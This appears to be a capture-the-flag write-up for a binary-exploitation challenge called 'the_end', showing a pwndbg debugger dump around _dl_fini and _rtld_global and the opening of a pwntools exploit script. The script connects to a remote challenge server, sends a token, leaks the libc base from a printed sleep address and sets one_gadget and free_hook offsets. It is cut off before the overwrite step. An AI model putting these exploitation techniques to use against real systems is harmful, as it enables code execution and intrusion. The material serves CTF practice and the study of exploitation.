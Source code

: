 ```
   0x7ffa38b80b41 <_dl_fini+145>    movzx  edx, byte ptr [rax + 0x315]
─────────────────────────────────────[ STACK ]─────────────────────────────────────
00:0000│ rsp  0x7ffd96fb0bd0 ◂— 0x6562b026
01:0008│      0x7ffd96fb0bd8 ◂— 0x3000000010
02:0010│      0x7ffd96fb0be0 —▸ 0x7ffd96fb0cb0 ◂— 0x596fb0da0
03:0018│      0x7ffd96fb0be8 —▸ 0x7ffd96fb0bf0 —▸ 0x7ffd96ff9280 ◂— add    byte ptr ss:[rax], al /* '6' */
04:0020│      0x7ffd96fb0bf0 —▸ 0x7ffd96ff9280 ◂— add    byte ptr ss:[rax], al /* '6' */
05:0028│      0x7ffd96fb0bf8 —▸ 0x7ffa38872230 (sleep) ◂— push   rbp
06:0030│      0x7ffd96fb0c00 —▸ 0x7ffd96fb0db8 —▸ 0x7ffd96fb2224 ◂— 0x52454d554e5f434c ('LC_NUMER')
07:0038│      0x7ffd96fb0c08 —▸ 0x7ffa388722f0 (__nanosleep_nocancel+7) ◂— cmp    rax, -0xfff
───────────────────────────────────[ BACKTRACE ]───────────────────────────────────
 ► f 0     7ffa38b80b2e _dl_fini+126
   f 1     7ffa387dfff8 __run_exit_handlers+232
   f 2     7ffa387e0045
   f 3     55a87726f969
   f 4        596fb0da0
   f 5     7ffa38d96f4c _rtld_global+3852
   f 6     55a87726f970
   f 7     7ffa387c6830 __libc_start_main+240
   f 8     55a87726f7c9
   f 9     7ffd96fb0d98
   f 10               1c
pwndbg> x/xg 0x7ffa38b80b2e + 0x216414
0x7ffa38d96f42 <_rtld_global+3842>:	0x62a4000000000000
pwndbg> x/xg 0x7ffa38b80b34 + 0x216414
0x7ffa38d96f48 <_rtld_global+3848>:	0x00007ffa388962a4
```

exp:

```
from pwn import *

debug = int(raw_input("is_debug:"))

if debug:
    p = process("./the_end")
#    libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
    libc = ELF("./libc64.so")
    context.log_level = "debug"
    one_gadget = 0xf02a4
#    one_gadget = 0xf1147
    free_hook = 0x3c67a8
else:
    p = remote("150.109.44.250", 20002)
    libc = ELF("./libc64.so")
   # one_gadget = 0xf1231
    one_gadget = 0xf02a4
    free_hook = 0x3c67a8
    context.log_level = "debug"

if not debug:
    p.recvuntil("token:")
    p.sendline("MGZM3eIB6lN6aL9gs1guW2CIVP4iYx3E")

data = p.recvline()
sleep_addr = data[15:29]
print sleep_addr

libc_addr = int(sleep_addr, 16) - libc.symbols['sleep']
print hex(libc_addr)
libc.address = libc_addr

```